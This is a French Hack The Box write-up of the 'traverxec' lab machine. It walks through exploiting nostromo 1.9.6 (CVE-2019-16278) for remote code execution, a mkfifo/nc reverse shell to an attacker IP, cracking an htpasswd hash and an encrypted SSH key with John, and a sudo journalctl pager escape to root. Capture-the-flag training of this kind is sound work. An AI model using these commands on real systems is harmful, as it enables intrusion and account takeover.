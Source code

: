 # Infos

Level : easy  
OS : Linux  
IP : 10.129.24.71  
Hostname: traverxec

# Reconnaissance

## Nmap TCP base

```
nmap -T4 --min-rate 10000 -sV -oN nmap_base 10.129.24.71 -v

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
80/tcp open  http    nostromo 1.9.6
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

On est sur l'OS Linux, sur le port 80, on retrouve la version de nostromo 1.9.6 qui peut être intéressant pour la suite.

# Enumération

## Port 80/tcp - HTTP

Sur le site, on retrouve une page web statique. Si on se renseigne sur  [nostromo](https://www.gsp.com/cgi-bin/man.cgi?section=8&topic=NHTTPD), on peut voir qu'il s'agit d'un serveur web très minimaliste.

![[../traverxec/img/80-site.png]]
![]()

En bas de la page, on a un formulaire, mais il ne fonctionne pas

![[80-form-disabled.png]]

## Foothold - www-data

Pas de robots.txt, on commence par fuzz les répertoires et fichiers, mais ça ne donne rien. Si on recherche des exploits en lien avec la version de nostromo, on retrouve un [exploit](https://www.exploit-db.com/exploits/47837) concernant la [CVE-2019-16278](https://nvd.nist.gov/vuln/detail/CVE-2019-16278) permettrant un path traversal dans la fonction `http_verify`, cela mène à une RCE.

L'exploit semble un peu vieux, on va en chercher un autre. Rapidement, on trouve cet [exploit](https://raw.githubusercontent.com/jas502n/CVE-2019-16278/master/CVE-2019-16278.sh) en bash sur Github. Cela nous demande l'hôte comme premier argument, puis le port en second argument et enfin la commande que l'on souhaite.

![[80-rce.png]]

Ca fonctionne et on obtient bien une RCE. Essayons maintenant d'obtenir un reverse shell Bash TCP, ça ne fonctionne pas, mais si on essaye avec le reverse shell mkfifo ça passe et on récupère un shell en tant que www-data

`bash CVE-2019-16278.sh 10.129.24.71 80 "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.33 9001 >/tmp/f"`

![[shell-www-data.png]]

## Mouvement latéral - david

Sur la machine, on retrouve deux utilisateurs, david qui pourrait être notre pivot et le compte root.

Lancement de linpeas, on peut voir un kernel un peut vieux

`OS: Linux version 4.19.0-6-amd64 (debian-kernel@lists.debian.org) (gcc version 8.3.0 (Debian 8.3.0-6)) #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20)`

Variables d'env

![[www-data-peas-env.png]]

Crontab

`-rw-r--r-- 1 root root    1042 Jun 23  2019 /etc/crontab`

.htpasswd

![[www-data-peas-htpasswd.png]]

`david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/`

On peut tenter de cracker ce hash et ça fonctionne `Nowonly4me`, mais impossible d'utiliser ce mot de passe via su ou SSH

`john --format=md5crypt hash-md5-david.txt --wordlist=/opt/rockyou.txt`

![[lat-crack-hash.png]]

Dans le répertoire contenant le server web nostromo, on retrouve un fichier de conf `nhttpd.conf` qui nous permet de voir qu'il y a un dossier accessible `public_www` sous `/home/david/public_www`

![[lat-conf-nostromo.png]]

Quand on y accède on retrouve un fichier et un dossier :
- index.html
- protected-file-area -> folder

Dans ce dossier on retrouve également deux fichiers :
- .htaccess -> ne donne rien
- backup-ssh-identity-files.tgz -> archive d'un backup SSH -> juicy :p

![[lat-david-tgz.png]]

On ne peut pas décompresser l'archive sur la target, mais on peut essayer de le transférer sur la machine d'attaque. Ca ne fonctionne pas, on peut tenter de copier le fichier dans /tmp, lui assigner les droits et le décompresser

![[tmp-backup-ssh.png]]

Ca fonctionne et on retrouve sa clé privée RSA chiffrée sous `/tmp/home/david/.ssh/id_rsa`

![[lat-david_idrsa_crypt.png]]

Utilisation de ssh2john pour générer un hash

`/opt/tools/john/run/ssh2john.py id_rsa_david > id_rsa_david_hash`

![[lat-david-idrsa_hash.png]]

Crack avec JtR, on retrouve le mdp `hunter`

`john id_rsa_david_hash --wordlist=/opt/rockyou.txt`

![[lat-david-idrsa_crack.png]]

Tentative de connexion en SSH et récupération du flag user.txt

`ssh -i id_rsa_david david@10.129.24.71`

![[Hack The Box/traverxec/img/userflag.png]]

## Elévation de privilèges - root

Lancement de linpeas pour trouver un path pour le root, sous `/home/david/bin/` on retrouve le fichier `server-stats.sh` qui fait appel à la commande sudo, ce qui pourrait être intéressant pour obtenir le compte root.

Si on l'exécute, on obtient ceci

`./server-stats.sh`

![[pe-server-stats.png]]

La dernière ligne fait appel à sudo sur journalctl, cela va ouvrir un less, on peut privesc de cette manière `!/bin/bash`

`/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service`

Après plusieurs tentatives, il faut deux terminaux pour que ça fonctionne, en effet si on tente avec un seul, le pager less ne se lance pas.

![[pe-suid-error.png]]

Alors qu'avec deux terminaux, ça fonctionne :D

![[rootflag.png]]


